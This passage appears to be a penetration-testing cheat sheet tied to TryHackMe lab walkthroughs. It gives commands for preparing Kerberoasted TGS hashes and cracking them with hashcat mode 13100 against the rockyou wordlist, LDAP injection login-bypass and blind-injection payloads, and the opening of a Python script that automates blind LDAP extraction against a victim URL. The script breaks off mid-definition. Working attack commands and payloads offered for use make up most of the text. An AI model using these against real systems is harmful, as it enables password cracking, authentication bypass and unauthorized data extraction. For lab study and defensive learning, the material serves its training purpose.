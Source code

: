 Run this to get rid of all the spaces.

**Kali**

```
cat hash.txt | sed 's/[[:space:]]//g' |tr -d '\n' | sed 's/$krb5tgs$23$*/\n&/g' > hash.txt
```

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

**Kali**

```
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyo.txt --force
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt --force --show
```

## LDAP Injection

**Examples**

[#exploiting-ldap](../../walkthroughs/tryhackme/ldap-injection.md#exploiting-ldap "mention")

**Injected Username and Password:**

```php
username=*&password=*
```

### Blind LDAP Injection

**Examples**

[#blind-ldap-injection](../../walkthroughs/tryhackme/ldap-injection.md#blind-ldap-injection "mention")

If the application returns "Something is wrong in your password", the attacker can infer that a user with an account that starts with "a" in their uid exists in the LDAP directory. To check for the next character, an attacker can reiterate the payload with the next character, for example:

**Injected Username and Password:**

```php
username=ab*%29%28%7C%28%26&password=pwd%29
```

### Blind LDAP Injection Automation Example

#### Exploit Code

To automate the exfiltration of data in the previous task, you can use the Python script below:

```python
import requests
from bs4 import BeautifulSoup
import string
import time

# Base URL
url = 'http://$VICTIM/blind.php'

# Define the character set
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# Initialize variables
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
```
